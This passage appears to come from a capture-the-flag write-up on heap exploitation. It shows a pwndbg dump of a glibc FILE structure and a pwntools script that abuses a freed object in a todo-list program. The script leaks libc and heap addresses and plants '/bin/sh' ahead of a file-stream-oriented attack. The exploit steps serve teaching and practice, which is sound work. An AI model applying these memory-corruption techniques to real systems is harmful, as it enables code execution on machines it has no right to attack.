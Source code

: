 ```
pwndbg> p *(FILE *)x
$2 = {
  _flags = 1701649199,
  _IO_read_ptr = 0x3c696894030dbd4 <error: Cannot access memory at address 0x3c696894030dbd4>,
  _IO_read_end = 0x0,
  _IO_read_base = 0x0,
  _IO_write_base = 0x0,
  _IO_write_ptr = 0x0,
  _IO_write_end = 0x0,
  _IO_buf_base = 0x0,
  _IO_buf_end = 0x0,
  _IO_save_base = 0x0,
  _IO_backup_base = 0x0,
  _IO_save_end = 0x0,
  _markers = 0x0,
  _chain = 0x79a05b5ba4e0 <_IO_2_1_stderr_>,
  _fileno = -1,
  _flags2 = 0,
  _old_offset = 0,
  _cur_column = 0,
  _vtable_offset = 0 '\000',
  _shortbuf = "",
  _lock = 0x5656d1b2f380,
  _offset = -1,
  _codecvt = 0x0,
  _wide_data = 0x5656d1b2f390,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  _prevchain = 0x79a05b5ba4c0 <_IO_list_all>,
  _mode = 0,
  _unused2 = '\000' <repeats 19 times>
}
```

```py
    log.info("x is freed")
    log.info("allocating x")
    libc_leak = 120 - 16
    heap_leak = 152 - 16
    pp.recvuntil(b">> ")
    pp.recvuntil(b">> ")
    create_todo(b"/bin/sh\x00", 12)
    create_todo(cyclic(libc_leak), 463)
    _chain = unpack_ptr(list_todos(1).replace(cyclic(libc_leak), b""))      # points to stderr
    edit_todo(cyclic(heap_leak), 1)
    _lock = unpack_ptr(list_todos(1).replace(cyclic(heap_leak), b""))
    libc.address = _chain - 2172128
    elf.heap = _lock - 896
```

We got everything we need, let's procceed to the FSOP
